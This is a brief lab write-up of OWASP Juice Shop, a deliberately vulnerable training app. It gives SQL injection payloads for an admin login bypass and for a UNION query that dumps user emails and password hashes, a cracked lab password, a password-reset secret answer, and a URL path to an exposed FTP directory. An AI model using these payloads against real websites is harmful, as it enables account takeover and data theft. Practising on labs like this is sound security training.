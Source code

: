 # OWASP JUICE SHOP

## BASIC INFO
```
export IP=10.10.23.156
```

## INJECTION

> - **SQL Injection on admin account**
> On the email field `something' OR 1=1 --`

> - **SQL Injection on /rest/product/search?q=something**
> `q=something')) UNION ALL SELECT NULL,email,password,NULL,NULL,NULL,NULL,NULL from users--`
> Crack the hashes
>> Jim's password = ncc-1701

## BROKEN AUTHENTICATION

> - **reset Jim's password**
> Looking through the comments we can see Jim's replied about star fleet
> on his shirt and replicator. Seems like he is James T. Kirk
> and he has a brother named George Samuel Kirk
>> Answer to secret question = Samuel

## SENSITIVE DATA EXPOSURE
> Looking on the link to terms of use
>
> http://10.10.23.156/ftp/legal.md?md_debug=true
>
>Then follow it to
>http://10.10.23.156/ftp
>> acquisition.md
